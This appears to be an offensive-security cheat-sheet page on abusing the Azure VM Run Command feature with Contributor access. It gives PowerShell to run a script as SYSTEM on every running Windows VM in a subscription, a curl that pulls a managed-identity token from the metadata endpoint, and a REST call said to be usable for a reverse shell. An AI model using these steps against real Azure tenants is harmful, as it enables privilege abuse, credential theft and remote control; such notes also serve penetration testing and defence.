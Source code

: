 # Exploiting Run Command Feature

## Requirements: Contributor account/role access

### The Run Command feature of Azure VMs is a platform feature used to run scripts on VMs remotely using the VM agent. It can be used to run PowerShell scripts on Windows VMs and shell scripts on Linux VMs. It is generally used by administrators or developers to quickly diagnose and remediate VM access and network issues and get the VM back to a good state.

### Here is some information to keep in mind when exploiting this feature:

- Scripts run as the System account on Windows VMs and as an elevated user (typically root) on Linux VMs.

- We can only run one script at a time through the feature.

- Interactive scripts that prompt for user information are not supported.

- Outbound connectivity from the VM to Azure public IP addresses on port 443 is required to return the results of the script.

# 1) Azure Portal

 - Go to the "Virtual Machine" blade

 - Run command has prebuilt commands that can be run in the portal (You can run your own custom commands ofc)

 - Select "RunPowerShellScript" or "RunShellScript" for Linux (You can run your own custom commands for both Windows and Linux, as SYSTEM or root)

# 2) Az Powershell module

    $VMs = Get-AzVM -Status | where {($_.PowerState -EQ "VM running") -and ($_.StorageProfile.OSDisk.OSType -eq "Windows")}

    $VMs | select ResourceGrouName,Name (List the running Windows VMs and cast them to the VMs variable)

    echo "whoami" > whoami.ps1

    $VMs | Invoke-AzVMRunCommand -CommandId 'RunPowerShellScript' -ScriptPath .\whoami.ps1 (Run your powershell script on all VMs in the subscription)

# 3) Azure REST APIs

    curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq (Obtain an access token that can be used to access the Azure management API endpoint)

    $mgmtToken = "TOKEN_HERE"

    Invoke-AzVMCommandREST -commandToExecute "whoami > test.txt" -managementToken $mgmtToken TENANT_ID (Run a command via REST API method. You can use this to start a reverse shell on target)
